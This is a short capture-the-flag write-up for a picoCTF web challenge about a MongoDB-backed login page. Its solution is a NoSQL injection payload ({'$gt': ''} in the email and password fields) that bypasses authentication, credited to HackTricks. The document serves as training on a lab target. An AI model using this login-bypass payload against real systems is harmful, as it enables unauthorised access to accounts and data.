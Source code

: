 # No Sql Injection

```markdown
Tags: `Web Exploitation` `browser_webshell_solvable`
```

## **Description**

Can you try to get access to this website to get the flag? You can download the source [here](https://artifacts.picoctf.net/c\_atlas/29/app.tar.gz). The website is running [here](http://atlas.picoctf.net:61553/). Can you log in?

<figure><img src="../.gitbook/assets/image (165).png" alt=""><figcaption><p>Found that use MongoDB</p></figcaption></figure>

<figure><img src="../.gitbook/assets/Pasted image 1 (8).png" alt=""><figcaption></figcaption></figure>

## Flag

```sql
email: {"$gt": ""} password: {"$gt": ""}
#Thanks https://book.hacktricks.xyz/pentesting-web/nosql-injection#mongodb-payloads
```

<figure><img src="../.gitbook/assets/Pasted image (34).png" alt=""><figcaption></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
